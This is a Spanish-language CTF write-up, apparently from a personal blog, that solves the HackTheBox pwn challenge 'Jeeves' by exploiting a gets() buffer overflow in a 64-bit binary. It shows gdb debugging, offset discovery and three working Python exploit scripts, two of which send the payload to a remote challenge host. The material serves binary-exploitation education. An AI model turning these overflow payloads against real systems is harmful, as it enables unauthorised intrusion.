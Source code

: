 ```yaml
---
title: Jeeves - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/image.png)

Este es un reto de pwning el cual implica explotar una vulnerabilidad Buffer Overflow en un binario de 64 bits. El objetivo principal es sobrescribir el valor de un registro de memoria en específico, el cual se emplea en una condición dentro del programa; la cual si resulta ser verdadera, provocará que este imprima la flag.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled.png)

Como se observa a continuación, el binario recibe un input del usuario, el cual es impreso en el output resultante de la ejecución:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%201.png)

Al analizar el código Assembler se identifican dos instrucciones importantes en la función **main**.

Primeramente se asigna el valor `0xdeadc0d3` al registro `rbp-4` , a través de la instrucción **MOV**.

```jsx
0x00005555555551f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
```

Posterior a esto, dicho valor es sometido a un condicional, a través de una instrucción **CMP**, de comparación, con el valor `0x1337bab3`.

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%202.png)

Al observar el código fuente, reverseado con **Ghidra**, se puede entender mucho mejor cómo funciona el programa.

Como se visualiza en imagen, el valor de la variable `target_variable` es sometido a un condicional. Si dicho valor es igual a `0x1337bab3`, el programa imprimirá el contenido del archivo `flag.txt`, caso contrario no lo hará y sólo terminará la ejecución: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%203.png)

Es importante mencionar que en el código reverseado se identifica que el programa recibe el input del usuario a través de la función `gets`, la cual es vulnerable a ataques de desbordamiento de buffer, de acuerdo a su documentación:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%204.png)

Sabiendo esto, se procede a debuggear el binario, utilizando la herramienta **gdb-gef**.

Previo a arrancar, se debe crear un archivo `flag.txt`, de prueba, debido a que el programa lee el contenido de este para obtener el valor de la flag: 

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%205.png)

Hecho esto, se procede a abrir el binario con **gdb-gef**, donde se establece un breakpoint en la instrucción de memoria, en la cual se realiza la comparación del valor `0x1337bab3` con el valor almacenado en el registro `rbp-0x4`:

```jsx
0x0000555555555236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%206.png)

Al ejecutar el programa, con el breakpoint en el condicional, se logra visualizar que el valor almacenado en el registro `rbp-4`, corresponde a `0xdeadc0d3`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%207.png)

A modo de prueba se modifica el valor de dicho registro de memoria por `0x1337bab3`, con el objetivo de que el resultado de la condición sea verdadero:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%208.png)

Como se mostró en la imagen anterior, cuando el resultado de la condicional es verdadero, el programa imprime la flag, almacenada en el archivo `flag.txt`.

Sin embargo, para lograr el desafío de HTB no podemos usar **gdb**, debemos lograrlo directamente a través de un Buffer Overflow.

Para esto, primeramente podemos identificar que se configura el input del usuario, el cual como límite debe ser una cadena de 44 bytes:

```c
char user_name [44];
int flag_content;
void *flag_length;
int target_variable;
```

Si metemos más caracteres de los que soporta el valor de la variable, el buffer se sobrescribe al momento de llamar a la función `gets`, lo cual causa que el programa no termine su ejecución de manera exitosa:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%209.png)

Sabiendo esto, se crea una cadena de 100 bytes con la herramienta `pattern create`, de gdb, la cual se inyecta en el input para detectar el offset, que corresponde a todo el junk previo a meter para sobrescribir el valor almacenado en `rbp-4`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2010.png)

Como se puede ver, luego de inyectar dicha entrada de caracteres, se detecta que el offset es 60:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2011.png)

De esta manera, lo que se puede concluir hasta ahora, es que tenemos que introducir 60 caracteres antes de sobrescribir el valor de `rbp-4`.

De esta forma, a modo de validar la sobreescritura de `rbp-4` se crea la siguiente cadena, la cual son 60 As y 6 Bs:

```jsx
┌──(sha16㉿offs3c)-[~]
└─$ python3 -c "print('\x41'*60+'\x42'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```

Posterior a la inyección de la cadena creada, se determina que el offset es correcto, dado que el valor de `rbp-4` es `BBBBBB`:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2012.png)

Dado esto, se procede a armar el siguiente exploit en Python3, el cual se encarga de inyectar el valor en el registro `rbp-4`:

```python
#!/usr/bin/python3

from pwn import context, process, p64

if __name__ == '__main__':
    # Set program context
    context.update(arch='amd64', os='linux')
    elf = process('./jeeves')

    # BoF
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    # Send payload
    elf.sendline(payload)
    elf.interactive()
```

Al ejecutar el exploit, se observa que la flag es obtenida correctamente:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2013.png)

Sabiendo que el exploit funciona, ahora este puede ser adaptado a una versión remota para obtener el flag de HackTheBox y completar el reto correctamente:

```python
#!/usr/bin/python3

from pwn import p64
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'

    with socket() as s:
        s.connect((host, port))
        s.send(payload)
        print(s.recv(4096))
        print(s.recv(4096))
```

Al ejecutar el exploit, se obtiene con éxito la flag del desafío:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2014.png)

De forma aparte, me gustaría mostrarles cómo con la librería de pwntools también pueden crear su propio exploit, un tanto más elegante:

```python
#!/usr/bin/python3

from pwn import remote, p64, success
from socket import socket

if __name__ == '__main__':
    # Connection Data
    host = '206.189.121.78'
    port = 31129

    # BoF (payload)
    offset = 60
    junk = b'\x41' * offset
    rbp_4 = p64(0x1337bab3)
    payload = junk + rbp_4 + b'\n\r'
		
		# Remote Connection
    connection = remote(host, port)
    connection.sendline(payload)
    connection.recvuntil(b'Here\'s a small gift:')
    flag = connection.recv(4096)
    success(b'HTB Flag:' + flag)
```

Al ejecutarlo la flag es obtenida a través de un output mucho más limpio:

![Untitled](/assets/img/htb/pwn/Jeeves%20a550bbd9224040e8ab497c0518a2d3ca/Untitled%2015.png)

Eso es todo, espero que le haya gustado y servido mucho este post para aprender algunos conceptos básicos de binary exploitation. La verdad es una temática en la que recién me estoy adentrando y compartirles esto me sirve mucho para retroalimentar estos conceptos. 

Cualquier duda, consulta, corrección, etc., saben que me pueden contactar en LinkedIn o Twitter 👾

Happy Hacking 🏴‍☠️